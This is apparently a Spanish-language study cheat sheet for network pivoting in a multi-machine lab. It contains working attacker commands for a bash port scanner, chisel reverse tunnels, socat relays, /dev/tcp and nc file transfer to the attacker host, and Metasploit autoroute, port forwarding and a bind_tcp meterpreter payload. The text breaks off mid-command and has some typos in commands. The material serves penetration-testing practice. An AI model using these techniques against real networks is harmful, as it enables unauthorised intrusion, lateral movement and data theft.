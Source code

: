 
----

## Manual
----
>Jugaremos con 5 machines

- Red 

>Empezamos

- Arp-scan debería salir sólo 1 
- Importante escanear si es linux o windows o lo que corresponda

>Enumeramos puertos desde una máquina vulnerada

```bash
#!/bin/bash

for i in $(seq 1 254); do
	for port in 21 22 80 443 445 8080; do
		timeout 1 bash -c "echo '' > /dev/tcp/10.10.0.$i/$port" &>/dev/null && echo "[+] Host 10.10.0.$i - PORT $port - OPEN| &

	done
done; wait
```

- Una vez ganado aceso, compartir chisel a maquina victima
```bash
scp chisel user@ip:/tmp/chisel
```

- Cuidado de **que no coincidan los puertos** del túnel con **otros servicios o reverse shells corriendo**

1. Llegar a una IP

> Atacante
```bash
chisel server --reverse -p 1234
``` 

> Victim, quiero que el puerto **80 de la víctima** sea **mi puerto 80**
```bash
chisel client IPAtaque:1234 R:80:IpVictim:80
```

2. Llegar a todo el segmento de red

> Atacante
```bash
chisel server --reverse -p 1234
``` 
- Configuramos **/etc/proxychains4.conf**
```bash
nano /etc/proxychains4.conf
socks5 127.0.0.1 1080
#Chisel abre el puerto por defecto 1080
```
- Ahora pasamos con nmap por el túnel
```bash
proxycahins4 nmap -sT -Pn -n IP 2>/dev/null # probas con -sS 
```
- Con **gobuster**
```bash
gobuster -w wordlist http://IP --proxy socks5://127.0.0.1:1080
```

> Victim
1. Si quiero ver todo el segmento de red de la **2 vícitima**
```bash
chisel client IPAtaque:1234 R:socks #Si no funciona socks5
```
2. Si quiero el puerto 443 de la victima por udp
```bash
chisel client IPAtaque:1234 R:443:IpVictim:443/udp
```



>Ahora si queremos hacer una petición desde la víctima

Nos descargamos **chisel** y se lo pasamos a la victima
- Victim
>Básicamente decimos, eh tú, todo lo que venga por el 4343, redirígelo a esa **IP:Port**
```bash
./socat TCP-LISTEN:4343,fork TCP:IPATACANTE:80
```
- Desde la víctima, podemos ver el **archivo.txt** qu etenemos en la maquina atacante
```bash
curl http://ipPrimeraVictima:4343/archivo.txt
```

- transferir archivos de una máquina a otra
```bash
./socat TCP-LISTEN:4343,fork TCP:IPATACANTE:1234
cat < archivazo > /dev/tco/IPAtacante/4343
nc -nvlp 1234 > archivazo
```


- Cuándo queremos llegar a una 3 máquina

1. Le pasamos **chisel.exe** a la máquina windows, que es la 3º
```bash
smbserver.py smbFolder /home/usuario -smb2support
```
2. Desde la windows, ya que tenemos varios túneles
```bat
copy \\IP\smbFolder\chisel.exe chisel.exe
```
3. Ya **teníamos 1 server de chisel** corriendo y **2 clients**
```bash
# Atacante
chisel server --reverse -p 1234

# 1 máquina
chisel client IPAtaque:1234 R:socks

# 2 máquina
chisel client IPMAquinaComprometida1:1234 R:socks R:443:IpVictim1:443/udp

# 3 máquna Windows
chisel client IPMAquinaComprometida2:1234 R:socks R:443:IpVictim1:443/udp
```


## Metasploit

1. Si comprometemos, sólo podremos **escanear desde dentro de metasploit**
- Al comprometer runa máquina añadiremos Rutas
```bash
meterpreter> run autoroute -s DirRed/Mascara
# renombramos las sesiones para que nos queden claras las redes
sessions -n Red1-Victim1 -i 1
```
- Scanner **TCP**
```bash

use scanner/portscan/tcp
set rhosts IPVictim2
set PORTS 0-65535
exploit
```
- Para **forwarding** 
> **-l:** Especificamos el puerto de la máquina atacante
    **-p:** Especificamos el port de la vítcima
     **-r:** Especifico la áquina Víctima
 
```bash
meterpreter>portfwd add -l 1234 -p 80 -r IPVictim2
```

- Escaneamos por el puerto dónde reenviamos, a ver que info de cada port
```bash
db_nmap -sS -sV -p 1234 localhost
```

 - Explotación
 >Abremos bind_shell y la víctima abre el Peuerto esperando conexiones

```bash
use elexploit que sea en ese puerto 80
set payload /windows/meterpreter/bind_tcp